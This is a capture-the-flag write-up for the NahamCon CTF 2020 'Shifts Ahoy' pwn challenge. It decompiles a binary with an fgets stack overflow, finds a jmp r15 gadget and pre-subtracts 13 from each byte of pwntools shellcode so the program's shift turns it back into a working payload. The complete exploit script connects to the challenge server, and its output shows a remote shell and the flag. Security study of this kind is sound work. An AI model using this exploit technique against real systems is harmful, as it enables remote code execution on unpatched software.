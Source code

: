 # NahamCon CTF 2020

## Shifts Ahoy

> 100
>
> I created super advanced encryption software for us to communicate securely.
>
> Connect here:</br>
> `nc jh2i.com 50015`</br>
>
> [`shifts-ahoy`](shifts-ahoy)

Tags: _pwn_ _x86-64_ _shellcode_ _rop_ _bof_ _remote-shell_


## Summary

Buffer overflow to ROP your shellcode.  The ROP is tight, 7-bytes!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Almost nothing.  Choose your own adventure.


### Decompile with Ghidra

```c
void encrypt(char *__block,int __edflag)

{
  size_t sVar1;
  undefined4 in_register_00000034;
  char local_58 [72];
  int local_10;
  int local_c;
  
  printf("Enter the message: ",CONCAT44(in_register_00000034,__edflag));
  fgets(local_58,0x60,stdin);
  sVar1 = strlen(local_58);
  local_c = (int)sVar1;
  if (0x40 < (int)sVar1) {
    local_c = 0x40;
  }
  local_10 = 0;
  while (local_10 < local_c) {
    local_58[local_10] = local_58[local_10] + '\r';
    local_10 = local_10 + 1;
  }
  printf("\nEncrypted Message: %s\n",local_58);
  return;
}
```

The `fgets` buffer overflow vulnerability is in the `encrypt` function, and there is just enough overflow to work with.  `local_58` is `0x58` bytes from the return address and `fgets` is only going to read `0x60` bytes.  That leaves 8 bytes (7 if you count that `fgets` will replace the last byte with `0x00`, fortunately it needs to be zero), just enough to overwrite the return address.

_But with what?_

Looking at the `encrypt` disassembly:

```
        004012e1 49 89 e7        MOV        R15,RSP
        004012e4 90              NOP
        004012e5 c9              LEAVE
        004012e6 c3              RET
```

Just before `encrypt` returns, the stack pointer is copied (moved) to R15, which happens to have the address of `local_58` (check with GDB), so just send some shellcode and then `jmp r15`.  _Right?_

`jmp r15` check:

```python
>>> from pwn import *
>>> binary = ELF('shifts-ahoy')
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
>>> context.update(arch='amd64',os='linux')
>>> jmp_r15 = list(binary.search(asm('jmp r15')))[0]
>>> print("jmp r15",hex(jmp_r15))
jmp r15 0x4011cd
```

Good.

There's one last detail, the "encrypt" function, "encrypts" the first `0x40` bytes of our input to `fgets`, so we'll have to "decrypt" our payload so that when "encrypted" we get plaintext shellcode.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./shifts-ahoy')
p = remote('jh2i.com', 50015)

p.sendlineafter('> ','1')
p.recvuntil('Enter the message: ')

binary = ELF('shifts-ahoy')
context.update(arch='amd64',os='linux')
shellcode = asm(shellcraft.sh())
jmp_r15 = list(binary.search(asm('jmp r15')))[0]
print("jmp r15",hex(jmp_r15))

payload = b''
for i in range(len(shellcode)):
    payload += bytes([(shellcode[i] - ord('\r')) & 0xff])

payload += (0x58 - len(payload)) * b'A'
payload += p64(jmp_r15)

p.sendline(payload)
p.interactive()
```

After obtinaing shellcode from pwntools and the address of `jmp r15`, the shellcode will need to be "decrypted", IOW, subtract `\r` from each byte since `encrypt` will just add it back, then pad out to `0x58` bytes (distance from return address), and set the return address to the address of `jmp r15`.

Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50015: Done
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp r15 0x4011cd
[*] Switching to interactive mode

Encrypted Message: jhH\xb8/bin///sPH\x89\xe7hri\x814$1\xf6V^H\xe6VH\x89\xe61\xd2j;X\x0fNNNNNNNNNNNNNNNNAAAAAAAA@
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
shifts-ahoy
$ cat flag.txt
flag{captain_of_the_rot13_ship}
```

So `\r` is the 13th ASCII character, _rot?_, anyway, done.
